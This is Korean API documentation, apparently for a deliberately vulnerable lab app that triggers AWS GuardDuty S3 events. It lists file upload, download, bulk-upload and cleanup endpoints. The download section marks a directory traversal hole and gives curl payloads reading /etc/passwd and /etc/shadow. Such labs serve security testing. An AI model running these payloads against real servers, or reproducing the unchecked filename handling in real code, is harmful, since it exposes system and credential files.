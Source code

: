 
## 📁 파일 관리 API

### POST /api/v1/files/upload
**GuardDuty**: S3 CloudTrail 이벤트 생성

파일을 S3에 업로드합니다.

**요청**: multipart/form-data
```bash
curl -X POST -F "file=@example.txt" http://localhost:8000/api/v1/files/upload
```

**응답**:
```json
{
  "메시지": "파일이 성공적으로 업로드되었습니다",
  "파일_ID": "123e4567-e89b-12d3-a456-426614174000",
  "파일명": "example.txt",
  "S3_키": "uploads/123e4567-e89b-12d3-a456-426614174000_example.txt"
}
```

### GET /api/v1/files/download?filename=
**취약점**: 디렉토리 탐색

경로 탐색을 통해 시스템 파일에 접근할 수 있습니다.

**디렉토리 탐색 페이로드**:
```bash
curl "http://localhost:8000/api/v1/files/download?filename=../../etc/passwd"
curl "http://localhost:8000/api/v1/files/download?filename=../../../etc/shadow"
```

### POST /api/v1/files/bulk-upload?count=100
**GuardDuty**: 대량 S3 작업

대량의 파일을 S3에 업로드합니다.

**응답**:
```json
{
  "메시지": "100개 파일이 성공적으로 업로드되었습니다",
  "파일목록": ["bulk-upload/file_0_uuid.txt", "..."]
}
```

### DELETE /api/v1/files/cleanup
대량 업로드된 파일들을 정리합니다.

**응답**:
```json
{
  "메시지": "150개 파일이 삭제되었습니다"
}
```
